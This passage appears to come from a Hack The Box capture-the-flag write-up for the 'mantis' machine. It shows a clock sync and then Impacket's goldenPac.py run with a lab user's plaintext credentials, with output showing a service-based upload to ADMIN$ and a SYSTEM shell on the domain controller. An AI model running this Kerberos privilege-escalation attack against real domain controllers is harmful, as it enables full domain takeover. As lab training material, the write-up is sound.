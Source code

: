 ```bash

┌──(kali㉿kali)-[~/HackTheBox/mantis]
└─$ sudo rdate -4ns 10.10.10.52  

```

Running the goldenPac with the creds of james.

```bash

┌──(kali㉿kali)-[~/HackTheBox/mantis]
└─$ goldenPac.py htb.local/james:J@m3s_P@ssW0rd\!@mantis.htb.local                                            1 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file FLOoVAWU.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service ckTW on mantis.htb.local.....
[*] Starting service ckTW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```

Logged in as root, and that is how I owned mantis. 





                                                                                                                                                 

